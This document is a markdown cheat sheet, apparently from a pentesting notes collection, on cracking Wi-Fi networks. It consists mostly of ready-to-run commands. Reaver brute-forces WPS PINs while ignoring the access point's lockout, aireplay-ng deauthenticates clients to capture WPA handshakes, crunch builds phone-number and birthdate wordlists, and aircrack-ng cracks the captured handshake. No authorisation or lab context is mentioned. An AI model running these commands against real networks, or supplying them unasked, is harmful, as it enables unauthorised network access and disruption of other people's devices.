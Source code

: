 # Wireless Crack

## Monitor Mode

Depending on the card the command to put card in monitor mode can differ.

```
ifdown wlan0
airmon-ng start wlan0mon
ifup wlan0
```

or 

```
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up
```

## Change channel 

Sometime airodump get stuck on a channel:

```
iwconfig wlan0mon channel <channel>
```

# Scan AP & Client
### Aircrack-ng
```
airodump-ng -c <channel> --bssid <mac_bssid> -w <file> wlan0mon
```

### Kismet

Kismet show a lot of informations about wifi access point:

- Number of client
- Activity
- Security

```
kismet -c wlan0mon
```

Select wifi with many client and traffic in kismet. Better stop Kismet before trying deauth (because kismet automatically switch channel)

## Exploitation

### WPS Flaw with Reaver 

This flaw is only working with old APs. 

Find AP with WPS Activated:

```
wash -i wlan0mon [-c <channel>]
```

Bruteforce WPS Pin - https://lifehacker.com/how-to-crack-a-wi-fi-networks-wpa-password-with-reaver-5873407

```
reaver -i wlan0mon -c <channel> -b <mac_bssid> -vv
reaver -i wlan0mon -c <channel> -b <mac_bssid> -d 60 -N -S -w -vv
reaver -i wlan0mon -c <channel> -b <mac_bssid> -S -N -L -d 1 -r 5:3 -vv
```

```
-d : Delay between pin attemps
-L : Ignore locked state reported by the target AP
-N : Do not send NACK messages when out of order packets are received
-w : Mimic a Windows 7 registrar
```

### Bruteforce - Aircrack or Fern
Deauth client to get WPA Handshake

```
aireplay-ng -0 1 -a <mac_bssid> -c <client_mac> wlan0mon
```

The deauthentication packets are sent directly from your PC to the clients. So you must be physically close enough to the clients for your wireless card transmissions to reach them. To confirm the client received the deauthentication packets, use tcpdump or similar to look for ACK packets back from the client. 

If you did not get an ACK packet back, then the client did not “hear” the deauthentication packet.

Filtre Wireshark: 

```
(wlan.ra == <client_mac>) && (wlan.fc.type_subtype == 0x001d)
```

You now have the WPA Handshake in your <file>

#### Dictionnary generation with crunch

Most of people use their birthdate or telephone number as a password:

- 10 digits for phone numbers:

  ```
  crunch 10 10 -t 01%%%%%%%% -o ~/01XXXXXXXX_phone_number.lst
  ```

- 8 digit for birthdate

  ```
  crunch 8 8 1234567890 -o ~/8_digits_birthdate.lst
  ```

- ​	6 digits for birthdate

  ```
  crunch 6 6 1234567890 -o ~/6_digits_birthdate.lst
  ```

Run the attack:

```
aircrack-ng -w <password_list> -b <mac_bssid> <file>.cap
```

> Fern is more or less the same thing with a guy for lazy